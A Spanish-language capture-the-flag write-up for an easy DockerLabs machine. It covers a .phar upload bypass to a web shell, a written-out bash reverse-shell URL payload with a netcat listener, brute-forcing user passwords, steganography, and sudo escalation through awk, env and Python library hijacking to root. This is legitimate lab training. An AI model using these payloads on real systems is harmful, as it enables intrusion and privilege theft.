**IP**:  172.17.0.2
**S.O:** Linux
**Source:** DockeLabs
**Level:** Fácil
**Date:** 13 enero 2026
**Autor**:
**Descripción**: 

Enumeración Web
Fuzzing de directorios con gobuster
Arbitrary File Upload (Phar files) [RCE]
Brute force with created script
Estegranografia con stegseek
[[Escalada de Privilegios#**Escalada de Privilegios mediante Sudo**]] - awk, env, mediante Inyección de Comandos en un Script Sudo

**Flags**:  


**Begin**:

---
### **Reconocimiento**:

Comenzamos haciendo un ping:


Escaneo de Puertos abiertos TCP

Puertos abiertos: 
Puertos 22 (SSH)
Puertos 80 (HTTP)

Escaneo de versión a los puertos específicos.


Accedemos al servicio web

El servidor respondió con la página por defecto de Apache2

Realizamos un fuzzing de directorios.

Encontramos un directorio interesante llamado `fiel_upload.php`

Nos dirigimos a `172.17.0.2/file_upload.php`

Y vemos que nos da la posibilidad de subir archivos `.php`

Subimos un archivo malicioso en `.php` que nos dará una RCE


Y vemos que al subirlo no lo carga

Entonces los bypasseamos con un `.phar`

Lo subimos


Y vemos se logro subir correctamente


Nos dirigimos al directorio de `uploads`


Ejecución el payload y al navegar a `http://172.17.0.2/uploads/cmd.phar?cmd=whoami`, se inyecta el comando de sistema `whoami` a través del parámetro `cmd`.

La respuesta en la página es `www-data www-data`. Esto confirma que la web shell funciona

Ahora haremos que nos de una shell remota al puerto `4545`
```url
http://172.17.0.2/uploads/cmd.phar?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/4545%200%3E%261%22
```

Ponemos el puerto que asignamos 
```bash
nc -nvlp 4545
```

Y logramos tener una shell remota en nuestra terminal 


Realizamos el tratamiento TTY


Vemos que para listar los permisos sudo tenemos que ingresar una contraseña


Listamos los directorios de `/home`


Después de buscar en varios lugares y no encontrar nada, se realizo una fuerza bruta
Para ello nos dirigimos al directorio temporal para poder realizarlo `/tmp`
```bash
cd /tmp
```

Creamos nuestro script que realizara la fuerza bruta.


Le damos permisos de ejecución 


Creamos el diccionario de usuarios con los usuarios del sistema


Descargamos el diccionario `rockyou` de nuestra maquina kali 


Realizamos la fuerza bruta 

Y encontramos la contraseña del usuario `fernando`.

Accedemos con `fernando`
Y al listar los archivos vemos que hay una archivo `.jpeg`


Levantamos un servidor en http con `python3`


Desde nuestra maquina Kali descargamos la imagen.


Extraeremos el archivo interno de la imagen con `stegseek`.

Y nos da un archivo llamado `pass.txt`

Leemos el archivo

Y nos da una cadena de texto codificada la parecer

Al analizarlo en `dcode` no dice que puede ser SHA-1


Y al desencriptarlo nos da la palabra `password123`


Accedemos como el usuario `mario` con esta contraseña


Listamos los permisos sudo

Y vemos que podemos ejecutar `awk` como el usuario `julen` sin contraseña 

Con el comando encontrado en GTFObins escalamos a a `julen`


Accedemos como `julen`


Listamos lo permisos sudo

Y vemos que podemos ejecutar `env` como el usuario `iker` sin contraseña 

Con el comando encontrado en GTFObins escalamos a `iker`


Accedemos como `iker`


Listamos lo permisos sudo

Y vemos que podemos un script  como el usuario **root** sin contraseña 

Al leer el script `geo_ip.py`.

Vemos que el script usa las librerias `requests`

Procederemos a hacer un: Library Hijacking
Secuestramos la libreria
Imprimimos esto en la librería en nuestro directorio actual.
```bash
echo 'import os; os.system("/bin/bash")' > /home/iker/requests.py
```

Ejecutamos el script con sudo

Y logramos la esscalada exitosa a root.